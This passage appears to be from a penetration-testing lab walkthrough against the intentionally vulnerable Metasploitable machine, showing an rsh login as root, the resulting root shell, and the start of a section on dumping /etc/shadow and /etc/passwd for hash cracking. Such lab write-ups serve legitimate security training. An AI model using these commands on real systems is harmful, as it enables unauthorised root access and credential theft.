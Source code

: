 Test this:

Run in Kali terminal (not exploit shell):

```bash
rsh 192.168.100.10 -l root
```

**Result:**

```
Last login: Fri Jul 11 10:24:15 EDT 2025 from 192.168.100.10 on pts/1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have mail.
root@metasploitable:~#
```

Just like that, we have remote root access!
 
![Using .rhosts and rsh to gain remote root access](images/Using_.rhosts_and_rsh_to_gain_remote_root_access.png)

---

## Extracting and Cracking Password Hashes

Use:

```bash
cat /etc/shadow
cat /etc/passwd
```
